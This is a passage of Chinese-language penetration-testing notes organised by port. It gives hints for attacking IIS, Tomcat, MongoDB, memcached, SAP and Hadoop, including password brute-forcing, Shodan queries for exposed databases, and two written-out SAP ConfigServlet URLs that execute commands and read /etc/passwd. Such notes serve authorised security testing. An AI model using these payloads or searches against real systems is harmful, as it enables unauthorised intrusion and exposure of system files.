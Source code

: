 - `/?query=SHOW%20DATABASES`

---

## 80/443/8080~10000

通常是 `IIS` / `apache` / `tomcat`

- 对于 IIS 测试短文件名泄露或 MS15-034
- 直接访问出现默认页面或报错可能是路径不对,可以尝试爆破路径
- 对于 tomcat,可以尝试爆破弱口令 tomcat 的管理页面账号密码,注意:tomcat 默认是没有管理员账户的,这个只有开发配置后才有,所以先确认一下目标有没有配置管理账号,如果你点击 Manager App 或 Host Manager 就直接报错说明没有配置当然也可能是限制了访问.
- [框架和中间件渗透](../Web安全/BS-Exploits.md#框架和中间件)

`其他各类 web 服务`

- 如果有登录页面就去搜搭建教程尝试默认口令,或访问初始化安装的页面
- 如果目标采用的是开源服务,去看看项目 issue
- 这块内容太多就不一一列举 详情请看 [BS-Exploits](../Web安全/BS-Exploits.md#服务)

---

## 11211

`memcached`

- [memcached未授权访问](../软件服务安全/CS-Exploits.md#memcached)

---

## 27017/27018

`mongodb`

> shodan : "product:MongoDB"
> shodan : "MongoDB Server Information" port:27017 -authentication

- 弱口令
- 未授权访问

---

## 50000/50001

`SAP`

- `http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cmd.exe /c ipconfig /all`
- `http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cat /etc/passwd`

---

## 50010/50030/50070

`Hadoop`

- [Hadoop未授权访问](../软件服务安全/CS-Exploits.md#hadoop)
